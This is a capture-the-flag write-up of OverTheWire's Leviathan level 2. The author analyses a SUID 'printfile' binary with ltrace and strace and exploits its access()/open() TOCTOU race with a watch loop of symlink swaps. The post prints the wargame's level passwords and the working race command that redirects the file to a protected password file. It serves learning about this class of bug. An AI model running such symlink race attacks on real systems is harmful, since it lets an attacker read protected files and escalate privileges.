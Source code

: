 +++
date = 2020-05-05T18:00:00Z
lastmod = 2020-05-05T18:00:00Z
author ="l1ge"
title = "OverTheWire: Leviathan 2 Write-Up"
subtitle = "Write-up for Leviathan level 2 the FUN way"
feature = "image/leviathan_thumb.jpg"
caption = "Screenshot from Leviathan, 2014. Directed by Andrey Zvyagintsev"
tags = ["write-up", "overthewire", "reverse engineering"]
categories = ["write-ups"]

+++

There are plenty of write-ups out there for Leviathan's Level 2.  But none of them solved it the way I did: **the fun way!** - When you miss the very obvious solution but your qwerky way finally work

Let's first access the level

> ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
>
> password: ougahZi8Ta

In the home folder there is an executable named `printfile`. Let's check its permissions

```bash
$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It has the SUID bit (s), which means we can run it with the permissions of its owner leviathan3
Great! so let's try to print leviathan3 password

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

That would have been too easy. For some reason `printfile` doesn't allow us to access a file owned by leviathan3 despite the SUID bit. Let's investigate the binary with the command `ltrace`

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                         = -1
puts("You cant have that file..."You cant have that file...
)                                  = 27
+++ exited (status 1) +++
```

I also tried `strace` to check the system calls

```bash
$ strace ./printfile /etc/leviathan_pass/leviathan3
execve("./printfile", ["./printfile", "/etc/leviathan_pass/leviathan3"], [/* 17 vars */]) = 0
strace: [ Process PID=32706 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
brk(NULL)                               = 0x804b000
brk(0x806c000)                          = 0x806c000
write(1, "You cant have that file...\n", 27You cant have that file...
) = 27
exit_group(1)                           = ?
+++ exited with 1 +++
```

To be honest, I don't understand what most of this means, but one line is pretty straightforward :

```bash
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
```

There is an *access()* function that checks if I can access the file. Let's investigate how that function works.
From this [link](https://linux.die.net/man/2/access) I get a few interesting informations:

> The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file. This allows set-user-ID programs to easily determine the invoking user's authority.

OK now I understand why, despite the SUID bit on the `printfile`, I can't access the password file.
I keep reading and stumble upon a serious lead :

> **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

I like that!
I decide to Google more and I discovered that this kind of vulnerabilities was called **TOCTOU** (Time-of-check to time-of-use) and was mostly abused using symlinks.

The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access. But this happens so fast, how can I do that ?

That's when it becomes fun. I could have made a script but in the intro of the Leviathan's series, its said you don't need to write scripts to solve any of the level.

Instead I did it... manually.

I used `tmux` to be able to launch two commands simultaneously. You can also use `screen`

```bash
$watch -n 0.1 "touch /tmp/l1ge/lev3; ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3; rm /tmp/l1ge/lev3"
```

This command runs every 0.1 seconds with`watch -n 0.1`

-  `touch /tmp/l1ge/lev3` - creates a file *lev3*
- `ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3`  - Creates a symlink on *lev3* targetting leviathan3's password file
-  `rm /tmp/l1ge/lev3` - Deletes *lev3*

To sum up, every 0.1 seconds it creates a file with permissions that can pass the *access()* function, symlinks it to the file we really wanna access, deletes it and start all over again.  

My plan is to run `./printfile` on my *lev3* file repeatedly until it magically sync up perfectly and the symlink happens right between *access()* reads the permissions and it gets passed to `cat` to print its content.

And to do that without a script, I'll use my fingers

I fire-up another `tmux` window and here I go, hitting UP ARROW and ENTER as fast I can to execute randomly the command on repeat.

```bash
$ ./printfile /tmp/l1ge/lev3
```

...until I hope the password magically appears. When you find yourself doing something so stupid on a CTF,  a strong inner voice tells you to give up and never touch a computer again.

BUT in less than 1mn the magic happened, that's fast enough to bypass my own pessimism.

![](/image/leviathan2.jpg)

Our password is  **Ahdiemoo1j**

There is of course a most reliable way to solve this level and you can check the other write-ups about it.

Hope you enjoyed!

Cheers,
l1ge.
